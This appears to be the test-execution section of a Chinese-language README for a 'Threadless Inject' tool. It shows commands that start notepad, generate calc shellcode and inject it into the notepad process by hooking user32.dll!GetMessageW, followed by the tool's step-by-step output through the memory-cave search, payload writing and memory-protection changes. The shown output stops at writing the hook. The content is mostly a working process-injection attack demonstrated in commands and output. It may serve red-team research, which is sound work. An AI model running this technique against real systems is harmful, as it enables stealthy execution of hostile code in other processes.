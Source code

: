 ## 测试执行

### 执行步骤

1. **启动目标进程**
```bash
notepad.exe &
tasklist | grep notepad.exe
# Notepad.exe  109512  Console  13  112,672 K
```

2. **生成 shellcode**
```bash
./build/generate_shellcode.exe calc payload.bin
# [+] Shellcode 已写入：payload.bin（106 字节）
```

3. **执行 Threadless Inject**
```bash
./build/threadless_inject.exe 109512 user32.dll GetMessageW payload.bin
```

### 完整输出

```
[*] 正在加载 shellcode：payload.bin
[+] Shellcode 已加载（106 字节）

======================================
  Threadless Inject - 无线程注入
======================================

[1] 定位导出函数
    [+] 找到 user32.dll!GetMessageW @ 0x00007FFB3E24FAB0

[2] 打开目标进程
    [+] 成功打开进程 PID=109512

[3] 分配内存
[*] 查找内存洞穴（在 0x00007FFB3E24FAB0 ±2GB 范围内）
[+] 找到内存洞穴：0x00007FFACE240000（大小：161 字节）

[4] 读取原始字节
    [+] 原始字节：0x8B4150EC83485340

[5] 生成 Hook Stub
    [+] Hook Stub 已生成（大小：55 字节）

[6] 构建载荷
    [+] 载荷大小：161 字节（Stub: 55 + Shellcode: 106）

[7] 写入载荷到目标进程
    [+] 已写入 161 字节到 0x00007FFACE240000

[8] 修改内存保护
    [+] 内存保护已修改为 PAGE_EXECUTE_READ

[9] 生成 Hook
    [*] 相对偏移：0x8FFF054B
    [*] Call 指令：E8 4B 05 FF 8F

[10] 修改导出函数内存保护
    [+] 导出函数内存保护已修改为 PAGE_EXECUTE_READWRITE

[11] 写入 Hook
```